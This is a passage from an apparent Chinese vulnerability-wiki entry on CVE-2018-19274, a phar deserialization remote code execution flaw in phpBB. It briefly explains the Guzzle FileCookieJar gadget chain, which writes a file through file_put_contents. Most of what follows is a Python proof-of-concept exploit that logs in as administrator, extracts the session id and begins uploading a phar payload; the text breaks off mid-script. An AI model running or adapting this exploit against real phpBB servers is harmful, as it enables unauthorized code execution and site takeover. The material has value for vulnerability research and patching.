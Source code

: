 文件位置：`phpBB3/vendor/guzzlehttp/guzzle/src/Cookie/FileCookieJar.php`

![17.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId44.png)

析构函数调用`save`函数，最后使用`file_put_contents`完成文件写入，整个漏洞利用完成。

### poc

    # coding =utf-8

    import requests
    from bs4 import BeautifulSoup
    import re

    proxies = {
        "http": "http://127.0.0.1:8080",
    }

    import hashlib


    def md5(str):
        m = hashlib.md5()
        m.update(str.encode("utf8"))
        return m.hexdigest()


    if __name__ == '__main__':
        target = "http://bugtest.com/phpBB3"
        admin_account = 'admin'
        admin_pwd = '123456'
        phar_payload = 'payload.phar.zip'
        upfilename = 'rai4over.zip'

        r = requests.Session()
        data = {
            'username': admin_account,
            'password': admin_pwd,
            'login': 'Login'
        }
        print('Start logging in to the administrator account')
        rs = r.post(target + '/ucp.php?mode=login', data=data)
        html = rs.text

        if ('header-profile dropdown-container' in html) and ("class=\"username-coloured\">" + admin_account in html):
            print('OK! The administrator account is successfully logged in')
        else:
            exit('No! Login failed . Probably because of the verification code')

        soup = BeautifulSoup(html, "html.parser")
        input = soup.find('input', attrs={'name': 'sid'})
        sid = input['value']

        file = {
            'fileupload': open(phar_payload, "rb").read()
